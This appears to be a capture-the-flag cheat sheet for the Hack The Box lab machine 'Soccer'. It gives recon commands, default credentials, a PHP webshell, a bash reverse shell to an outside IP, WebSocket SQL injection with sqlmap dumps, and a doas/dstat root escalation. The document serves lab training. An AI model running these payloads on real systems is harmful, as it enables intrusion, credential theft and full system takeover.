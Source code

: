 # 🧠 HTB: Soccer – Command Cheat Sheet

## 🔍 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.194
nmap -p 22,80,9091 -sCV 10.10.11.194
```

### FFUF (vhost fuzzing)
```bash
ffuf -u http://10.10.11.194 -H "Host: FUZZ.soccer.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### Feroxbuster
```bash
feroxbuster -u http://soccer.htb
```

---

## ⚙️ Initial Access (Tiny File Manager)

### Default creds
- `admin:admin@123`
- `user:12345`

### PHP Webshell
```php
<?php system($_REQUEST['cmd']); ?>
```

### Upload webshell to `/tiny/uploads/`
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
```

### Reverse Shell
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```

---

## 👤 Priv Esc to `player`

### Check `/etc/nginx/sites-enabled/soc-player.htb`

Update `/etc/hosts`:
```
10.10.11.194 soccer.htb soc-player.soccer.htb
```

### WebSocket SQLi Injection
Payload:
```json
{"id": "0 OR 1=1-- -"}
```

### Sqlmap Command (WebSocket)
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
--dbms mysql --batch --level 5 --risk 3 --threads 10
```

Dump credentials:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
-D soccer_db -T accounts --dump --threads 10
```

### Login as Player
```bash
su player  # or SSH
# Password: PlayerOftheMatch2022
```

---

## 🔓 Priv Esc to root

### doas Privilege Escalation
```bash
# Check allowed commands
doas -l

# Write plugin
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_0xdf.py

# Trigger plugin
doas /usr/bin/dstat --0xdf
```